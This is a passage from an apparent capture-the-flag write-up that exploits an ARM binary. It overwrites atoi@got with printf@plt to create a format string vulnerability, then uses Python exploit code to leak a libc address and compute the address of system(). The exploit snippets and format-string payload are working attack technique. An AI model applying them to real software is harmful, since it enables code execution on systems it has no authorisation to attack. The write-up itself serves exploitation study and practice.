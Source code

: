 Which produces the following result in `gef`:
{{ img(src="https://i.imgur.com/UdmAg6N.png" title="control-pc") }}

Bingo! We control the execution flow! Good! But now where do we go?

The binary is dynamically linked, and does not contains any gadget that would
allow us to call directly `execve` so we need a leak from the libc.


#### Using function indirection to leak memory using printf ####

I'm not sure if this is the best way to do, but I like this approach: the idea
is that, when you can overwrite the GOT, point an "interesting" function of the
control flow to `printf@plt`. This way, if you can control the parameter of this
call, you can use a regular format string attack to read/write everywhere!!

The `read_int()` (at 0x875c) offers a perfect exploitation case:
{{ img(src="https://i.imgur.com/81p3djs.png" title="read-int-ida") }}

`fgets` at 0x878c allows us to provide 32 bytes in the stack, which will be
given to `atoi` as a parameter. So if we overwrite `atoi@got` with the address
of `printf@plt`, we have a good case for a format string attack.

So using the technique above, we can overwrite `atoi@got` with the address of
`printf` in the [PLT](https://en.wikipedia.org/wiki/Dynamic_linker):

```bash
.plt:00008594 ; int printf(const char *format, ...)
.plt:00008594 printf                                  ; CODE XREF: print_banner+58
.plt:00008594                                         ; update_key+38 ...
.plt:00008594                 ADR     R12, 0x859C
.plt:00008598                 ADD     R12, R12, #0x8000
.plt:0000859C                 LDR     PC, [R12,#(printf_ptr - 0x1059C)]! ; __imp_printf
```

```python
    update_key(s, PRINTF_IMPORT, False)
    ok("atoi@got: %#x -> %#x" % (ATOI_GOT, PRINTF_IMPORT))
```

So now every time the control flow will hit the `atoi()` function, the `printf()`
stub will be executed, and we will receive the argument from the socket! So
every time the banner will prompt for a choice (1-4), the buffer we send will be
the argument to `printf()`.


#### Triggering the exploit ####

By leaking the memory, we find that an address to the libc can be found (at
least) at the offset 21:
{{ img(src="https://i.imgur.com/Q5UpCbc.png" title="libc-leak") }}

On the C library I tested, the `system()` function was located at an offset of
0x37524 from the base. So now, we know the address of `system()`:
```python
    while True:
        s.write("data> %21$#.8x\n")
        leak = s.read_until("\n")
        if "data> " in leak:
            break

    libc_leak = int(leak.strip().split()[-1], 16)
    libc_base = libc_leak - 0x16d24
    libc_system = libc_base + 0x37524

    ok("Got libc_leak: %#x" % libc_leak)
    ok("Got libc_base: %#x" % libc_base)
    ok("Got libc_system: %#x" % libc_system)
```
